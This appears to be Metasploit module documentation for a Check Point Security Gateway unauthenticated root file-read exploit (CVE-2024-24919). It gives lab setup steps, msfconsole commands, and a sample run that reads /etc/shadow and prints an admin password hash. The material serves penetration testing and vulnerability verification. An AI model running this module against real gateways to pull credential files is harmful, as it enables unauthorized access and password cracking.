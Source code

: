 ## Vulnerable Application
This module leverages an unauthenticated arbitrary root file read vulnerability for
Check Point Security Gateway appliances. When the IPSec VPN or Mobile Access blades
are enabled on affected devices, traversal payloads can be used to read any files on
the local file system. Password hashes read from disk may be cracked, potentially
resulting in administrator-level access to the target device. This vulnerability is
tracked as CVE-2024-24919.

## Options

### STORE_LOOT
Whether the read file's contents should be outputted to the console or stored as loot (default: false).

### TARGETFILE
The target file to read (default: /etc/shadow). This should be a full Linux file path. Files containing binary data may
not be read accurately.

## Testing
To set up a test environment:
1. Download an affected version of Check Point Security Gateway (Such as Check_Point_R81.20_T631.iso, SHA1:
42e25f45ab6b1694a97f76ca363d58040802e6d6).
1. Install the ISO within a virtual machine.
1. Browse to the administrator web dashboard on port 443 and complete the first-time setup tasks.
1. On a Windows system, download and install a copy of Check Point SmartConsole, then use it to authenticate to Security Gateway.
1. In SmartConsole, enable and configure the vulnerable Mobile Access or IPSec VPN blades. These instructions focus on Mobile Access:
   1. Open the Gateway Properties:
      1. Navigate to Gateways & Servers in the left-hand menu.
      1. Select the gateway you want to configure.
      1. Right-click on the gateway and select Edit.
   1. Enable Mobile Access:
      1. In the General Properties tab, under Network Security, check the box for Mobile Access.
      1. Click on Mobile Access in the left-hand menu of the gateway properties window to access the Mobile Access settings.
   1. Configure Mobile Access:
      1. Set up the authentication methods under Authentication (e.g., LDAP, RADIUS, etc.).
      1. Configure the Portal Settings, specifying the URL for the Mobile Access Portal.
      1. Under Applications, define which applications and resources will be accessible via the Mobile Access portal.
      1. Click OK to close the properties window.
1. Publish and push the configuration changes to the device.
   1. In SmartConsole, after completing your configuration, click on the Publish button at the top right corner of the
      SmartConsole window. This will save your changes to the management database.
   1. After publishing the changes, click on the Install Policy button located at the top of the SmartConsole window.
   1. In the Install Policy window, select the policy package you want to install. This is typically your main security policy package.
   1. Choose the gateways on which you want to install the policy. Make sure to select the gateway that you configured
      for Mobile Access and/or IPSec VPN.
   1. Click Install to begin the installation process. Once this process completes the gateway should then be vulnerable to this module.


## Verification Steps
1. Start msfconsole
2. `use auxiliary/gather/checkpoint_gateway_fileread_cve_2024_24919`
3. `set RHOSTS <TARGET_IP_ADDRESS>`
4. `set RPORT <TARGET_PORT>`
5. `set TARGETFILE <TARGET_FILE_TO_READ>`
6. `set STORE_LOOT false` if you want to display the target file on the console instead of storing it as loot.
7. `run`

## Scenarios
### Check Point Security Gateway Linux
```
msf auxiliary(gather/checkpoint_gateway_fileread_cve_2024_24919) > show options 

Module options (auxiliary/gather/checkpoint_gateway_fileread_cve_2024_24919):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                       yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT       443              yes       The target port (TCP)
   SSL         false            no        Negotiate SSL/TLS for outgoing connections
   STORE_LOOT  false            yes       Store the target file as loot
   TARGETFILE  /etc/shadow      yes       The target file to read. This should be a full Linux file path. Files containing binary data may not be read accurately
   TARGETURI   /                yes       The URI path to Check Point Security Gateway
   VHOST                        no        HTTP server virtual host


View the full module info with the info, or info -d command.

msf auxiliary(gather/checkpoint_gateway_fileread_cve_2024_24919) > set RHOSTS 192.168.181.128
RHOSTS => 192.168.181.128
msf auxiliary(gather/checkpoint_gateway_fileread_cve_2024_24919) > set SSL true
[!] Changing the SSL option's value may require changing RPORT!
SSL => true
msf auxiliary(gather/checkpoint_gateway_fileread_cve_2024_24919) > check
[+] 192.168.181.128:443 - The target is vulnerable. Arbitrary file read successful!
msf auxiliary(gather/checkpoint_gateway_fileread_cve_2024_24919) > run
[*] Running module against 192.168.181.128

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Arbitrary file read successful!
[+] File read succeeded! 
admin:$6$hHJHiZdC2kHPD5HQ$/0dtMC53GSaZpLA/MeChOvJNNE4i9qoKL57Dsl853wF/RRNzJJ6CO5/qBmzCM7KdEUmXanF3J8T50ppLh/Sf2/:14559:0:99999:8:::
monitor:*:19872:0:99999:8:::
root:*:19872:0:99999:7:::
cp_routeevt:*:19872:0:99999:7:::
nobody:*:19872:0:99999:7:::
postfix:*:19872:0:99999:7:::
rpm:!!:19872:0:99999:7:::
shutdown:*:19872:0:99999:7:::
pcap:!!:19872:0:99999:7:::
halt:*:19872:0:99999:7:::
cp_postgres:*:19872:0:99999:7:::
cp_extensions:*:19872:0:99999:7:::
cpep_user:*:19872:0:99999:7:::
vcsa:!!:19872:0:99999:7:::
_nonlocl:*:19872:0:99999:7:::
sshd:*:19872:0:99999:7:::

[*] Auxiliary module execution completed
```
